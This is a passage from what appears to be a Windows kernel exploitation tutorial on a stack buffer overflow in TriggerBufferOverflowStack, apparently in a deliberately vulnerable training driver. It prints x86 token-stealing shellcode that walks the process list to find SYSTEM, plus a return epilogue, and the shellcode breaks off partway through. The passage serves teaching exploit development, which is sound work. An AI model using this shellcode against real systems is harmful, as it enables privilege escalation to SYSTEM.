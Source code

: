 ```
924b619e 5d              pop     ebp
924b619f c20800          ret     8
```
<br>
We see that it moves eax (the return value of `TriggerBufferOverflowStack` into 
ecx and then does the redundant action of moving ecx back into eax which doesn't 
change anything, then a pop into ebp followed by a ret 8. This what the stack 
of the program, and the compiler intended to happen after 
`TriggerBufferOverflowStack` returned so we should add it to the end of our 
shellcode to clean up after our exploit.\
<br>

---

**NOTE**  
If you try leaving these instruction out you will notice after you run your 
exploit your box will freeze

---

<br>
```
... token stealing shellcode from above...
popad
mov ecx, eax                   
mov eax, ecx
pop ebp
ret 8
```
<br>
Now we need to assemble that shellcode and place the opcode bytes into a buffer 
and put it into our exploit so we can copy it into our executable buffer. A way 
to do this is to create another Visual Studio console application, place your 
shellcode into the body of a function using the c [\_\_asm](https://learn.micros
oft.com/en-us/cpp/assembler/inline/asm?view=msvc-170) keyword, build the 
program and then use Windbg or DUMPBIN to extract the opcodes. E.g. you visual 
studio program should look like the following:\
<br>
```c
void build_shellcode() {
  __asm
  {     
    pushad                         // Backup registers
    mov eax, DWORD PTR fs:[0x20]   // _KPRCB * eax = _KPRC + 0x20
    mov eax, DWORD PTR [eax+0x4]   // _KTHREAD * eax = _KPRCB + 0x4
    mov eax, DWORD PTR [eax+0x150] // _EPROCESS * eax = _KTHREAD + 0x150
    mov ecx, eax                   // Store _PROCESS for current thread in ecx for later use
    mov esi, DWORD PTR [eax+0x140] // Store Parent PID in esi
    lea eax, DWORD PTR [eax+0xb8]  // Move address of the _LIST_ENTRY field into eax
    
    findSystem:
    mov eax, DWORD PTR [eax+0x4]   // Move backward in the active process list using the Blink
    mov ebx, DWORD PTR [eax-0x4]   // Get the Unique Process Id (PID) for this new _EPROCESS structure
    cmp ebx, 0x4                   // Compare PID against 4 (SYSTEMS PID)
    jne findSystem                 // If PID != 4, this _EPROCESS strucutre is not for SYSTEM, iterate
                                   //  to the next _EPROCESS structure
                                   
                                   // If the JNE instruction didn't jump it means the PID for the
                                   //_EPROCESS structure == 4 which means its the _EPROCESS structure
                                   // for SYSTEM
                                      
    sub eax, 0xb8                  // Point EAX back to the beginning of the _EPROCESS structure
```